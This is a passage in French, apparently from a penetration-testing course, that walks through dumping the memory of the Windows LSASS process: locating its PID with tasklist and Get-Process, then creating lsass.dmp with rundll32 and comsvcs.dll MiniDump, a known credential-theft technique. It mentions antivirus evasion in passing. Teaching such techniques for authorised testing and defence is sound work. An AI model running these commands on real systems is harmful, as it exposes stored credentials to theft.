Avant d'émettre la commande pour créer le fichier de vidage, nous devons déterminer quel ID de processus (PID) est attribué à lsass.exe. Cela peut être fait depuis cmd ou PowerShell :

### Trouver le PID LSASS dans cmd
À partir de cmd, nous pouvons émettre la commande tasklist /svc et trouver lsass.exe et son ID de processus dans le champ PID.
```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

### Trouver le PID LSASS dans PowerShell
À partir de PowerShell, nous pouvons émettre la commande Get-Process lsass et voir l'ID de processus dans le champ Id.
```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

### Création de lsass.dmp à l'aide de PowerShell
Avec une session PowerShell élevée, nous pouvons émettre la commande suivante pour créer le fichier de vidage :

```
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Avec cette commande, nous exécutons rundll32.exe pour appeler une fonction exportée de comsvcs.dll qui appelle également la fonction MiniDumpWriteDump (MiniDump) pour vider la mémoire du processus LSASS dans un répertoire spécifié (C:\lsass.dmp). Rappelez-vous que la plupart des outils AV modernes reconnaissent cela comme malveillant et empêchent l'exécution de la commande. Dans ces cas, nous devrons envisager des moyens de contourner ou de désactiver l'outil AV auquel nous sommes confrontés. Les techniques de contournement AV sortent du cadre de ce module.
